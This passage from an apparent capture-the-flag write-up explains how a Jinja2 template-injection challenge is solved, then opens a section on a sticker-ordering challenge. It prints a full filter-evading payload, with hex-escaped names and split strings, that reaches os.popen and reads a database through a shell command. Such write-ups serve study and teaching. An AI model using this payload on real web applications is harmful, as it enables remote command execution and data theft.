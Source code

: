 We need to do the strings command on the sqllite database to get the flag via the command `strings DB/*`. This needs to be hex encoded as no slashes or spaces are allowed.

`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x73\x74\x72\x69\x6e\x67\x73\x20\x44\x42\x2f\x2a')|attr('read')()}}`

![ssti-flag](/assets/img/nahamctf-obl-ssti-flag.png)

### Sticker - Hard

We get a webpage where you can order stickers for your organization. 

![homepage](/assets/img/nahamctf-sticker-homepage.png)
